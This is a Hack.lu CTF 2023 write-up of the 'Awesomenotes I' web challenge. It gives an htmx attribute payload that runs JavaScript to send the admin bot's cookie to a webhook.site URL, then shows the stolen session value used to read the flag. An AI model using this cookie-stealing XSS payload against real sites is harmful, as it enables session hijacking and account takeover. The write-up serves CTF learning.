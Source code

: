 ### Awesomenotes I - Hack.lu CTF 2023 - web

![Challenge Description](2023-10-15_18-34.luCTF.png "Challenge Description")

### Writeup

![Challenge Screenshot](2023-10-15_18-36.luCTF.png "Challenge Screenshot")

This challenge was a rust web app that allowed to create notes and report them to the admin bot. I noticed it was using htmx. Making use of htmx features we are able to craft the following payload:

```
<div hx-get="https://awesomenotes.online/api/note/14d307cce1a25fcfb8c46c59c0fe1b4340c4262b41a6bd00b885c91f295841b9#" hx-trigger="load" hx-target="this" hx-on="htmx:afterRequest: fetch('https://webhook.site/aee41236-1b4f-4a20-bfe0-7ea3ef83c7b0?a='+document.cookie)" >Click</div>
```

This payload above will just perform a request to the application using hx-get to a note I previously created (not important which one) and then it will trigger the hx-on="htmx:afterRequest which has javascript code, effectively performing XSS (cross-site scripting). In this case we will grab the session cookie from the admin bot and get it on webhook.site. I created the note above and reported it to the admin bot using the 'Report Terms of Service violation' feature of the app.

![Challenge Flag](2023-10-15_18-51.luCTF.png "Challenge Flag")

On the webhook.site we get the following request from the admin bot:

```
GET 	https://webhook.site/aee41236-1b4f-4a20-bfe0-7ea3ef83c7b0?a=session=ZHKJ4RTddRPYpVRgT9UIyp1Oou7TvlR8c4whTNhpxwTEUheyGFaUsQ4JtrHiDtla
```

Create or set your session cookie in the browser to the value above. Now if you go to https://awesomenotes.online/note/flag (main.rs line 63) you will be able to see the flag:

![Challenge Flag](2023-10-15_18-45.luCTF.png "Challenge Flag")
